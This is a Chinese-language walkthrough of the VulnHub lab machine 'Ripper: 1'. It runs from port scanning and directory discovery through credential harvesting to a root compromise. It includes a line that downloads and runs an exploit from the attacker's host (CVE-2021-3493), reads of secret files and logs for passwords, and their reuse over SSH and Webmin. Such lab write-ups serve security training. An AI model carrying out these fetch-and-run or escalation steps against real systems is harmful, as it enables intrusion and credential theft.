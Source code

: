 靶机地址：[Ripper: 1 ~ VulnHub](https://vulnhub.com/entry/ripper-1,706/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.45
sudo nmap -p22,80,10000 -sV 192.168.1.45
# 22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# 80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
# 10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
```
访问web服务看看，80是一个默认页面，10000是一个登录页面，简单试了一下没发现什么特别的
web路径扫描
```Shell
sudo dirsearch -u http://192.168.1.45
sudo dirsearch -u https://192.168.1.45:10000/
# /robots.txt
```
访问 `https://192.168.1.45:10000/robots.txt` ，包含如下内容
```
d2Ugc2NhbiBwaHAgY29kZXMgd2l0aCByaXBzCg==
```
解码后为
```
we scan php codes with rips.
```
发现80端口下存在 `/rips/` 路径，直接用输入框的默认值 `/var/www` 点击 `scan`
扫出一些漏洞，通过这个应用可以直接访问文件，`/var/www/html/rips/secret.php` 中包含如下内容
也可以搜索敏感词汇，如：`pass` 、`secret` 等
```php
<? echo "user name: ripper"
<? echo "pass: Gamespeopleplay"
```
用这个账号密码登录10000端口的页面，失败了，再试试SSH
```Shell
ssh ripper@192.168.1.45
```
成功了，尝试提权
```Shell
uname -a
# Linux ripper-min 5.4.0-42-generic #46~18.04.1-Ubuntu SMP Fri Jul 10 07:21:24 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
lsb_release -a
# Ubuntu 18.04.5 LTS

which gcc # not found
wget http://192.168.1.26:7331/exploit
./exploit
```
通过 [[20 CVE#CVE-2021-3493|CVE-2021-3493]] 成功提权

其它提权方式，发现还有一个用户 `cubes`
查看用户文件
```Shell
find / -user cubes -type f 2>/dev/null
# /mnt/secret.file

cat /mnt/secret.file
# -passwd : Il00tpeople
```
尝试切换到 `cubes` 用户
```Shell
su cubes
```
成功了
```Shell
ls -a
# .bash_history
cat .bash_history
# cp miniserv.error backup/miniser.log
find / -name miniser*.log 2>/dev/null
# /var/webmin/miniserv.log
# /var/webmin/backup/miniser.log
cat /var/webmin/miniserv.log
# cat: /var/webmin/miniserv.log: Permission denied
cat /var/webmin/backup/miniser.log
# [04/Jun/2021:11:33:16 -0400] [10.0.0.154] Authentication : session_login.cgi=username=admin&pass=tokiohotel
```
用这个账号尝试登录10000端口的服务，成功了
提供了一个Web终端，拥有root权限

